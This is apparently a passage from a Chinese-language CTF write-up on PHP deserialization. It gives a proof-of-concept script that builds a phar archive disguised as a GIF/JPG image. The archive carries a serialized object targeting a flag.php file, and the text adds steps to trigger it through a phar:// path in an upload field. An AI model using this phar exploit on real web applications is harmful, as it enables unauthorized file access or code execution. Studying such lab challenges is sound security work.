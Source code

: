 Poc

```php
<?php
namespace PDFStuff {
    class PDFCreator
    {
        public $tmpfile = "/var/www/site/flag.php";
    }

    $phar = new \Phar("phar.phar");
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("GIF89a" . " __HALT_COMPILER(); ?>");
    $o = new PDFCreator();
    $phar->setMetadata($o);
    $phar->stopBuffering();
    rename('phar.phar', 'exp.jpg');

}
```

生成后在pdfcontent插入phar://./upload/b0ab0254bd58eb87eaee3172ba49fefb.jpg

![Untitled](PHP%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%20d90af503f8914fd0b2d3439c30147b00/Untitled%205.png)

在f12里
